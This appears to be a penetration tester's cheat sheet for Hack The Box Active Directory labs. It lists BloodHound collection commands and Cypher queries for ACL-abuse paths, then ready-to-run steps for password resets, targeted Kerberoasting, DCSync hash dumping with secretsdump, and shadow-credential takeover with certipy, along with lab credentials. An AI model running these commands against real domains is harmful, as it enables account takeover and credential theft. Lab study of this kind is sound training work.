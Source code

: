 On target:
```
. .\SharpHound.ps1
```
```
Invoke-BloodHound -CollectionMethod All
```
or run remotely:
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or
```
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

 then start neo4j
- `sudo neo4j console`
- neo4j:(kali pw)
- `bloodhound`
- run command from another terminal tab
- clear database
- upload Data

#### Queries
```
MATCH (m:Computer) RETURN m
```
- see computers
```
MATCH (m:User) RETURN m
```
- see users
- marked any users with creds as "owned"
	- check owned users for OUTBOUND OBJECT CONTROL > First Degree Object Control
		- Looking for GenericAll, GenericWrite, ForceChangePassword
			- create potential attack path (ex: olivia has GenericAll over Michael & Michael has ForceChangePassword over Benjamin = probably worth checking out)
```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p
```
- show privs all non-admin users have against all other nodes
```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p
```
- show ACL abuse non-admin users has against other users
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p
```
- show ACL abuse non-admin users have against computers
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p
```
- show non-admin users that have rights to add members into groups
```
MATCH (u:User) WHERE ANY (x IN u.serviceprincipalnames WHERE toUpper(x) CONTAINS 'SQL')RETURN u
```
- find SPNs with specific keywords (swap `SQL` for anything)
#### If user (Olivia) has GenericAll permissions over another user (Michael)
```
net user Michael Password123
```
- Change benjamin's password if currently owned user has GenericAll over benjamin
	- then login as that user and spray all open services with new creds
- can also use bloodyAD command below (if no shell)
#### If user (Michael) has ForceChangePassword over another user (Benjamin)
```
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```
- using succesfully authenticated creds of michael to reset Benjamin's password
#### If user (Emily) has GenericWrite permissions over another user (Ethan)
- make sure IP is in `/etc/hosts` with all subdomains
```
sudo ntpdate administrator.htb
```
- syncs timezone for kerberos
- may need to run multiple times if below command fails:
```
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
- running this command with Emily will display the hash for Ethan
	- run john to crack the hash, then use pw below for secretsdump command
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)
```
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```

#### If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence:
```
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```
```
dacledit.py  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```
```
sudo ntpdate sequel.htb
```
```
certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
- sets ryan as owner of ca_svc
- once owner, 2nd command gives ryan full control of ca_svc
- syncs time
- should return hash for ca_svc